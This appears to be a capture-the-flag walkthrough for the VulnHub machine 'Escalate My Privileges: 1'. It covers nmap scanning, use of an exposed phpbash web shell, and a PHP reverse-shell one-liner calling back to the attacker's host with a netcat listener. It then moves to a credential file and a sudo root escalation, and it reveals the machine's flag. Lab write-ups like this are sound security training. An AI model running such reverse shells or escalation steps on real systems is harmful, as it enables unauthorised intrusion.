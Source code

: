# Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. [NMap](https://NMap.org)
2. netcat
3. md5sum

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
2. Scan with `NMap` gives some open ports.
3. Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
4. It’s a shell on that link. We can execute command as user `apache`.
5. Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
6. We got shell as `armour`.

## Priviledge Escalation
1. On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
2. Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
3. Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
4. Used `sudo /bin/bash` command to `root`.
5. We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: Zishan Ahamed Thandar
